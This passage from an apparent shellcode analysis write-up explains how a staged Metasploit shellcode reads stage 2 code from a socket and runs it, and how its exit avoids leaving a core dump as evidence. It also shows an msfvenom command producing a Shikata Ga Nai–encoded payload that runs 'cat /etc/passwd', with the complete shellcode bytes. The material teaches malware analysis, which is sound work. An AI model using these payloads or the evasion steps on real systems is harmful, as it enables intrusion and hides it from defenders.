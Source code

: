 The shellcode now builds and executes a `read(2)` syscall. `read(2)`'s arguments are a file descriptor to read from, a pointer to memory to read into, and the amount of data to read in. To do this the the file descriptor still on the top of the stack from `connect(2)` is POPped into EBX. Then the stack pointer, as the region to write into, is moved into ECX. The `cdq` instruction is interesting here. It takes the 31st bit of EAX and stretches it across EDX. Since EAX should be zeroed, EDX should now be zeroed. Then 0xc is moved into DH to tell `read(2)` to read 3072 bytes. Then the syscall ID for `read(2)` is moved into AL and the syscall is made. 

```nasm
test eax,eax
js 0x6f     
jmp ecx     
```

If the `read(2)` call returned an error, jump to an `exit(2)` call at the end of the shellcode, if no error was returned JMP to the memory that was written to by `read(2)` and pass execution to the stage 2 shellcode that was read from the connection. At this point the stage 2 shellcode should be executing. 

```nasm
mov eax,0x1
mov ebx,0x1
int 0x80   
```

The last few lines of the shellcode is an `exit(2)` syscall. This call's argument is simply the code to exit with. This is where all of those 'jump to an `exit(2)` call at the end of the shllcode' I mentioned above ends up. This gracefully exits. This graceful exit isn't just the shellcode, it's the application. By doing this the application that has been exploited with this shellcode will return the 1 instead of hitting some kind of error such as a segfault that could result in a core dump with evidence of our exploitation. 

## Shikata Ga Nai encoded linux/x86/exec

The third shellcode we'll analyze is linux/x86/exec encoded with shikata ga nai (SGN). The subject of this analysis is going to be more targeted at the SGN decoder stub. We wil touch on the actual `exec` shellcode, however it was chosen as it would be a simple shellcode to apply SGN to. 

Generating the shellcode:

```
root@mountain:~# msfvenom -p linux/x86/exec CMD="cat /etc/passwd" -f c -e x86/shikata_ga_nai
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 78 (iteration=0)
x86/shikata_ga_nai chosen with final size 78
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\xd9\xe9\xba\x33\xd4\x7e\x78\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1"
"\x0d\x31\x55\x1a\x83\xed\xfc\x03\x55\x16\xe2\xc6\xbe\x75\x20"
"\xb1\x6d\xec\xb8\xec\xf2\x79\xdf\x86\xdb\x0a\x48\x56\x4c\xc2"
"\xea\x3f\xe2\x95\x08\xed\x12\xb5\xce\x11\xe3\xd5\xaf\x65\xc3"
"\x36\x55\xf1\x60\x66\xe5\x98\x15\x0b\x72\x3e\xda\xbc\x2f\x37"
"\x3b\x8f\x50";
```
